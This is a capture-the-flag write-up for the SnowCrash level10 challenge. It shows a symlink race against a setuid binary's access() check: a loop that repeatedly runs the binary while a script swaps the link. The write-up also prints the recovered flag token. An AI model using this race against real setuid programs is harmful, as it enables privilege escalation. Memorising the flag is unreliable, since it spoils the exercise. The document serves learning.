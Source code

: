 # Snowcrash10

Mandatory part done, hopefully it gets spicy
This time we have a suid binary and a token which we can't access


```sh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

After inspecting the binary it seems that the app wants to connect to a host on port 6969

So let's write a dirty server...done
Let it run on the client

We still can't open the token even if we bypass the syscall access check
While looking at documentation on access , it came clear that this piece is exploitable, and how to right here :
https://stackoverflow.com/questions/7925177/access-security-hole

We need to have one link pointing to one file we own so that checks are ok and then getting the proper file.

Stepping in with GDB doesn't seem to do the trick, i assume it is because i changed the link after the end of the access call and not during

What does work is doing it very fast a lot of time and you're bound to get a hit.
Let's do this in three parts
	- changing the link value
	- launching the executable untill we get the flag
	- getting the results

```sh
#Change links
level10:/tmp$ ./script.sh
#Spam the binary
level10:~$ while true; do ./level10 "/tmp/link" 127.0.0.1; done
#Get flag while avoiding connection check spam
level10:/tmp$ ./server | grep -v '.*(' 
woupa2yuojeeaaed06riuj63c
```
That was fun

